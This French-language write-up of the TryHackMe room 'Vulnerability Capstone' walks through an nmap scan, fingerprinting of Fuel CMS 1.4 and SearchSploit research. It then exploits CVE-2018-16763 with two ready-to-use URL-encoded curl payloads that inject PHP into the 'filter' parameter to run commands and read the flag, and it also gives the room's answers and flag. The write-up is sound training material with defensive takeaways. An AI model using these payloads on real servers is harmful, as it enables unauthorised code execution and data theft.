






---
tags:
  - Web
  - TryHackMe
  - Facile
  - Nmap
  - RCE
  - CVE
  - Fuel CMS
  - SearchSploit
  - curl
---

# Vulnerability Capstone - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Recherche de vulnérabilités, CVE, RCE, exploitation de CMS |
| **Prérequis** | Bases de Nmap, SearchSploit, Python3, compréhension des CVE |

## Contexte et objectifs

Cette room est le challenge final du module "Vulnerability Research" de TryHackMe. La mission : auditer le blog d'Acme Support Incorporated, identifier le CMS utilisé et sa version, rechercher les vulnérabilités associées dans les bases de données publiques, puis exploiter la faille trouvée pour récupérer le flag.

!!! info "À propos de cette room"
    Vulnerability Capstone met l'accent sur le processus de recherche plutôt que sur la technique pure. L'objectif pédagogique est de savoir identifier un logiciel, chercher ses CVE, trouver l'exploit correspondant et l'adapter. C'est exactement ce que fait un pentester lors d'une mission réelle.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

Avant d'interagir avec l'application, on identifie les services exposés pour connaître les points d'entrée disponibles :

```bash
nmap -sC -sV <IP_cible>
```

[](./screen/VulnerabilityCapstone/WindowsTerminal_ripyflSuw3.png)

Le scan révèle deux ports ouverts :
- **22/tcp** : SSH
- **80/tcp** : HTTP (Apache)

### Étape 2 : Identification du CMS cible

On visite `http://<IP_cible>` pour analyser l'application web. La page d'accueil affiche immédiatement le CMS utilisé et sa version.

[](./screen/VulnerabilityCapstone/msrdc_fH5cDzpAiM.png)

!!! warning "Observation clé"
    Un CMS qui affiche sa version publiquement permet à n'importe quel attaquant d'identifier instantanément les vulnérabilités connues. Cette information devrait être masquée en production.

On identifie : **Fuel CMS version 1.4**

!!! success "Réponse"
    **What is the name of the application running on the vulnerable machine?** → `Fuel CMS`
    **What is the version number of this application?** → `1.4`

### Étape 3 : Recherche de vulnérabilités avec SearchSploit

Avec le nom et la version du CMS identifiés, on interroge la base de données locale d'exploits :

```bash
searchsploit fuel cms
```

[](./screen/VulnerabilityCapstone/WindowsTerminal_KeP2xt905d.png)

!!! tip "Pourquoi SearchSploit ?"
    SearchSploit permet d'interroger localement la base Exploit-DB sans connexion internet. C'est plus rapide et discret qu'une recherche web, et les résultats sont directement utilisables.

Plusieurs exploits apparaissent pour Fuel CMS 1.4.1. Pour confirmer la CVE associée, on inspecte l'exploit :

```bash
searchsploit -m php/webapps/50477.py
```

[](./screen/VulnerabilityCapstone/WindowsTerminal_MwwJpUr9MH.png)

Le fichier copié est `50477.py`. On lit son en-tête pour comprendre le mécanisme avant de l'utiliser :

```bash
head -30 50477.py
```

L'en-tête confirme **CVE-2018-16763** et précise que la version touchée est Fuel CMS <= 1.4.1. En lisant le corps du script, on comprend le mécanisme : l'exploit injecte du code PHP dans le paramètre `filter` du endpoint `/fuel/pages/select/`, passé sans validation à la fonction `eval()` de PHP. Le script Python propose un pseudo-shell interactif, mais on peut également appeler ce endpoint directement avec `curl` pour exécuter des commandes sans intermédiaire.

!!! success "Réponse"
    **What is the number of the CVE that allows an attacker to remotely execute code on this application?** → `CVE-2018-16763`

### Étape 4 : Exploitation de la RCE (CVE-2018-16763)

Le paramètre `filter` est évalué comme du code PHP côté serveur sans aucune sanitisation. On peut injecter directement un appel à `system()` en passant la payload encodée dans l'URL avec `curl` :

```bash
curl -s "http://<IP_cible>/fuel/pages/select/?filter=%27%2bpi%28print%28%24a%3d%27system%27%29%2c%24a%28%27id%27%29%29%2b%27&pg=1" | head -1
```

[](./screen/VulnerabilityCapstone/WindowsTerminal_Wm6bdgWv3s.png)

!!! info "Comprendre la payload"
    La payload injecte le code PHP `pi(print($a='system'),$a('id'))`. Elle stocke la fonction `system` dans `$a`, puis l'appelle avec la commande `id`. Le mot `system` qui précède le résultat est un artefact du `print` - le vrai résultat est `uid=33(www-data)`, ce qui confirme l'exécution en tant que serveur web.

!!! tip "Une autre méthode existe"
    Cette même CVE-2018-16763 peut aussi être exploitée avec l'exploit Python `50477.py` téléchargé plus haut, qui automatise l'injection dans un pseudo-shell interactif au lieu de construire les requêtes `curl` à la main. C'est l'approche utilisée dans le writeup de la room [Ignite](ignite.md).

### Étape 5 : Récupération du flag

On exécute `cat` sur le flag directement via la même méthode, en remplaçant la commande dans la payload :

```bash
curl -s "http://<IP_cible>/fuel/pages/select/?filter=%27%2bpi%28print%28%24a%3d%27system%27%29%2c%24a%28%27cat+/home/ubuntu/flag.txt%27%29%29%2b%27&pg=1" | head -1
```

[](./screen/VulnerabilityCapstone/WindowsTerminal_ky3c8tgKiW.png)

!!! success "Réponse"
    **Flag** → `THM{ACKME_BLOG_HACKED}`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | CVE-2018-16763 : RCE non authentifiée via eval() dans Fuel CMS 1.4, version CMS exposée publiquement |
| **Techniques utilisées** | Fingerprinting de CMS, recherche CVE via SearchSploit, injection PHP via paramètre eval() non sanitisé |
| **Outils employés** | Nmap, SearchSploit, curl |

!!! abstract "Ce qu'il faut retenir"
    1. Identifier la version exacte d'un logiciel est la première étape de toute recherche de vulnérabilité : toujours masquer les informations de version en production.
    2. SearchSploit et Exploit-DB sont les ressources de référence pour trouver rapidement des exploits publics associés à une CVE.
    3. Une CVE datant de 2018 peut encore être exploitable en 2024 si le logiciel n'est pas mis à jour : la maintenance des dépendances est une priorité de sécurité.
